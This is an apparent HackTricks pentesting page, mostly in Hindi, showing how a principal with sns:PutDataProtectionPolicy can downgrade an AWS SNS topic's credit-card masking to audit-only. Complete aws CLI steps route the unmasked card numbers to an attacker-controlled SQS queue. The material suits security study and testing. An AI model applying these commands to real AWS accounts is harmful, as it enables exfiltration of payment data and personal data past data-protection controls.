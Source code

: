 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

यदि आपके पास किसी topic पर `sns:PutDataProtectionPolicy` की अनुमति है, तो आप इसकी Message Data Protection policy को Deidentify/Deny से Audit-only (या Outbound controls हटाकर) में बदल सकते हैं ताकि संवेदनशील मान (उदा., credit card numbers) बिना संशोधन के आपकी subscription पर भेजे जाएँ।

## आवश्यकताएँ
- लक्ष्य topic पर `sns:PutDataProtectionPolicy` कॉल करने की permissions (और आमतौर पर `sns:Subscribe` यदि आप डेटा प्राप्त करना चाहते हैं)।
- Standard SNS topic (Message Data Protection समर्थित)।

## Attack Steps

- Variables

```bash
REGION=us-east-1
```

1) एक Standard topic और एक attacker SQS queue बनाएँ, और केवल इस topic को उस queue को भेजने की अनुमति दें

```bash
TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
```

2) एक data protection policy attach करें जो outbound messages पर credit card numbers को mask करे

```bash
cat > /tmp/ht-dlp-policy.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "MaskCCOutbound",
"Principal": ["*"],
"DataDirection": "Outbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
```

3) attacker queue को subscribe करें और एक test CC नंबर के साथ message publish करें, masking को verify करें

```bash
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```

अपेक्षित अंश masking (हैश) दिखाता है:
```json
"Message" : "payment:{cc:################}"
```
4) नीति को audit-only में डाउनग्रेड करें (कोई deidentify/deny स्टेटमेंट जो Outbound को प्रभावित करते हैं नहीं)

SNS के लिए, Audit स्टेटमेंट्स को Inbound होना चाहिए। नीति को Audit-only Inbound स्टेटमेंट से बदलने से किसी भी Outbound de-identification को हटा दिया जाता है, इसलिए संदेश बिना बदले subscribers को भेजे जाते हैं।
```bash
cat > /tmp/ht-dlp-audit-only.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "AuditInbound",
"Principal": ["*"],
"DataDirection": "Inbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
```

5) वही संदेश प्रकाशित करें और सत्यापित करें कि अनमास्क्ड मान डिलीवर हुआ है
```bash
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```
अपेक्षित अंश cleartext CC दिखाता है:
```text
4539894458086459
```
## प्रभाव
- किसी topic को de-identification/deny से audit-only में स्विच करने (या अन्यथा Outbound controls हटाने) से PII/secrets बिना बदले attacker-controlled subscriptions तक पहुँच जाते हैं, और इससे data exfiltration संभव हो जाती है, जो अन्यथा masked या blocked रहती।

{{#include ../../../../banners/hacktricks-training.md}}
